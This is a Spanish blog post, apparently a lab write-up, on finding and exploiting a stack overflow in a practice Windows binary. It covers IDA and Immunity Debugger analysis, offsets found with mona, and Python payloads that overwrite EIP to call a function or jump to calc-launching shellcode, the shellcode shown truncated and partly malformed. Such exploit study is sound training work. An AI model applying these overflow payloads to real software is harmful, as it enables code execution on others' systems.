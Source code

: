 +++
author = "Hugo Authors"
title = "Easy peasy Stack Overflow"
date = "2021-02-19"
description = "Easy peasy Stack Overflow"
categories = [
    "Test"
]
tags = [
    "emoji",
]
+++




La idea es aprender a detectar y explotar la vulnerabilida stackoverflow en el caso más sencillo, con la mitigación Data Execution Prevention desactivada y teniendo el código fuente. El objetivo es solucionar el ejercicio de dos formas, primero redirigir el flujo a la función «call_me» y segundo redirigir la ejecucion hacia una shellcode dada por como entrada la cual lance la calculadora de Windows.

> Enlace al [código fuente y versión compilada.](files/code_and_solution.zip)

## Introducción

Para buscar la vulnerabilidad inicialmente hago un análisis estático con **IDA**, con este encuentro el código que permite el stack overflow, a continuación depuro el binario con **Immunity Debugger** para verificar el análisis estático y hago uso del módulo **mona** que **facilita el cálculo del número Bytes necesarios para sobreescribir el valor de retorno.** Finalmente muestro los exploits programados para llamar a la función call_me y la ejecución de un shellcode que inicia la calculadora de windows. 

## Análisis estático

Una vez abierto el binario con IDA compruebo si ha encontrado strings.

![](images/image1.png)

Con un vistazo rápido a las referencias cruzadas compruebo que el string marcado en la imágen anterior corresponde al main, el resto son usados dentro de una misma función. Para comprobar la referencias cruzadas a los strings voy a la vista en texto del código.

![](images/image2.png)

Teniendo seleccionado el string pulso ‘X’ para mostrar las referencias cruzadas.

![](images/image3.png)

La función donde es usado el string vista como un grafo es la siguiente.

![](images/image4.png)

Para explicar el análisis me ha parecido mejor hacerlo en base al resultado final tras renombrar las variables y añadir colores, de esta forma creo que se hará menos tedioso al no ir mostrando variable por variable como las renombro.

![](images/image5.png)

La función fopen devuelve un puntero a una estructura del tipo File, si este es nulo el fichero no se ha podido abrir. Por tanto en este momento ya podemos renombrar las variables como “filename” al argumento y “var_file_ptr” al FILE* devuelto por fopen.

![](images/image6.png)

La captura del prototipo de la función fopen (y las siguientes) es de la web cplusplus.com. Ahora es donde el código difiere del Stack1.

![](images/image7.png)

Primero hace uso de la función fread, comprobando sus argumentos ya identificamos el buffer donde almacena lo leído del fichero y el tamaño de 512B del buffer, por tanto renombro las variables a “buffer_fichero” y “size”.

![](images/image8.png)

Luego encontramos la función strstr, esta busca el string dado como segundo argumento en el string dado en el primer argumento. La variable usada para almacenar el puntero al inicio del substring la renombro “ptr_substr”. Con esto ya sabemos que para la ejecución dinámica se necesita pasar como argumento un fichero que contenga como mínimo la cadena “http”.

![](images/image8-1.png)

Para acabar, el último nodo se encarga de copiar la url encontrada en una variable, además imprime el valor de la url y cierra el fichero.

![](images/image9.png)

La función memcpy copia “num” bytes del buffer pasado como segundo parámetro al buffer pasado como primer parámetro sin tener en cuenta el carácter ‘\0’. Por  tanto si no se controlan el número de bytes copiados y los sizes de los buffers estamos ante un posible stack overflow.

![](images/image10.png)

El buffer de la variable destino “buffer_url” no ha sido usado hasta ahora, su size son 16B. Dado que memcpy copiará 254 “num” bytes se está copiando más datos de los reservados para el buffer de la url.

![](images/image11.png)

La stack quedaría de la siguiente forma:

![](images/image12.png)

La distancia entre el buffer_url y el eip a sobreescribir no llega a los 40h por lo que es viable explotar este stack overflow ya que se copian 100h.

## Análisis dinámico

Una vez abierto el binario Stack2 situo el código a analizar buscando los strings.

![](images/image13.png)

En cuanto al fichero de entrada el pattern lo genero con mona, al inicio del fichero de entrada añado el string “http://” para que pueda usar directamente el byte que me indique.

![](images/image14.png)

Pongo un breakpoint con ‘F2’ en el fclose y eax contiene parte del pattern y que se ha sobreescrito la dirección de memoria del FILE*.

![](images/image15.png)

Ejecuto “!mona findsmp” para obtener la posición, en el Byte 13 del pattern empieza la dirección de memoria del fichero.

![](images/image16.png)

A continuación pongo a null el valor del FILE* para que fclose no pare la ejecución del programa por la dirección de memoria sobreescrita y ejecuto hasta el RET para que recupere de la stack el valor de eip sobreescrito.

Ejecuto de nuevo “!mona findsmp” y obtengo que eip se encuentra en el byte 29 del pattern.

![](images/image17.png)


## Llamar la función call_me

El exploit va precedido de la cadena “http://”, la dirección del fichero empieza (sin tener en cuenta el string inicial) en el Byte 13 y eip en el Byte 29.

```python
call_me = 0x401530
f = open('Stack2_exp.txt', 'wb')
 
payload = "http://"
payload += 13*'X' # relleno
payload += struct.pack("<I", 0x0)  # FILE* a null
payload += 8*'X' # relleno
payload += 4*'A' # ebp
payload += struct.pack("<I", call_me) #eip
 
f.write(payload)
f.close()
```

Una vez introducida la payload compruebo en el depurador que pase la función fclose y que la dirección de retorno sea la del call_me.

![](images/image18.png)

![](images/image19.png)


## Ejecutar una shellcode

El código de la shellcode lo guardo en la pila, a continuación de la dirección de retorno pongo una lista de NOPs y la shellcode.

```python
call_shellcode = 0x22FEB0
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\xx1b..."
payload = "http://"
payload += 13*'X' # relleno
payload += struct.pack("<I", 0x0)  # FILE* a null
payload += 8*'X' # relleno
payload += 4*'A' # ebp
payload += struct.pack("<I", call_shellcode) #eip
payload += 9*'\x90' #NOPs
payload += calc_shellcode
```

En las siguientes imágenes se puede ver la dirección a la shellcode antes de realizar el salto y la rista de NOPs antes de la shellcode.

![](images/image20.png)

![](images/image21.png)

Finalmente ejecuto Stack desde la terminal

![](images/image22.png)